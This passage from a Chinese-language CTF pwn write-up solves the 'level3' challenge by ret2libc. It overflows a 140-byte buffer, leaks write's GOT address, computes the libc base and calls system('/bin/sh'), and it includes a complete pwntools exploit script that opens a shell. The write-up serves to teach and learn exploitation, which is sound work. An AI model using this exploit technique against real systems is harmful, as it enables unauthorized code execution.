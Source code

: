 如图所示，write 函数的地址为 `0xd43c0`，system 函数的地址为 `0x3a940`，在 pwntools 中其实可以通过 `libc.symbols['write']` 和 `libc.symbols['system']` ，并没有太大的必要来人工拿地址

接着，我们需要拿到 libc.so 中 `/bin/sh` 的地址

![](https://vip1.loli.net/2019/12/27/8GtPR3myCHJI7X9.png)

可知，`/bin/sh` 的地址在 1413163 的位置

![](https://vip1.loli.net/2019/12/27/Rn7OFA5S3CdDwc6.png)

如图，我们需要构造 `0x88+4=140` 的字符，然后就能覆盖到返回地址，那么，我们这里什么作为返回地址呢?

我们可以将 write 函数的地址作为返回地址，构造函数使其输出 write 函数在 GOT 表中的地址，接着将返回地址设置为程序头，重新运行一次程序，接着就可以构造 `system("/bin/sh")` 拿到 shell 了。

![](https://vip1.loli.net/2019/12/27/leaLmDjw5iTbUcI.png)

栈结构大致如上图所示，通过此步我们可以通过计算拿到 libc 中 system 和 /bin/sh 的地址，至于为什么要这样子构造，主要是由于 write 函数需要接收参数而定的

`ssize_t write(int fd, const void *buf, size_t n)`

我们相当于是令 `fd = 1 / *buf = write_addr / n = 4` （如果是 64 位程序的话 n 为 8）然后执行了一次 write 函数，拿到了其地址。

在下一次程序的运行过程中，我们使用同样的栈溢出，即可拿到 shell

```python
#!/usr/bin/env python

from pwn import *
from LibcSearcher import *

proc = './level3'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 56376)
else:
    p = process(proc)

libc = ELF('./libc_32.so.6')
elf = ELF(proc)

write_plt = elf.plt['write']
write_got = elf.got['write']
vuln_func = elf.symbols['vulnerable_function']

p.recvuntil(':')
p.sendline('a' * 140 + p32(write_plt) + p32(vuln_func) + p32(1) + p32(write_got) + p32(4))

p.recv() # 0a
write_addr = u32(p.recvuntil(':')[:4])

libc_base = write_addr - libc.symbols['write']
system = libc_base + libc.symbols['system']
binsh = libc_base + 0x15902b

p.sendline('a' * 140 + p32(system) + p32(0) + p32(binsh))

p.interactive()
```

## 写在最后

本人 pwn 新手，因此本文多多少少会有点问题，请师傅们指正。
